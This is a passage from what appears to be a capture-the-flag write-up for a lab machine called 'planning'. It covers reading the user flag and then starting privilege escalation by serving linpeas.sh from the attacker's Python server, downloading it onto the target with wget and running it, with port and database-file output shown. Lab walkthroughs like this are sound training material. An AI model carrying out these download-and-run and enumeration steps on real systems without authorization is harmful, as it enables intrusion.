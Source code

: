 ### Now you can get the user.txt
```
cat user.txt
```
## Root Flag
### Lets do a linpeas scan using [Linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/download/20250701-bdcab634/linpeas.sh)
### Set up a python server
```
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
#### The file will be downloaded from this server
```
enzo@planning:~$ wget http://10.10.14.43:8080/linpeas.sh
```
```
--2025-07-07 05:23:13--  http://10.10.14.43:8080/linpeas.sh
Connecting to 10.10.14.43:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 956174 (934K) [text/x-sh]
Saving to: ‘linpeas.sh.4’

linpeas.sh.4                      100%[==========================================================>] 933.76K   455KB/s    in 2.1s    

2025-07-07 05:23:17 (455 KB/s) - ‘linpeas.sh.4’ saved [956174/956174]
```
```
./linpeas.sh
```
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
══╣ Active Ports (netstat)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35091         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```
### Port 8000 is open
```
╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data
Found /tmp/mycron.db: New Line Delimited JSON text data
Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 967, cookie 0x4, schema 4, UTF-8, version-valid-for 5
```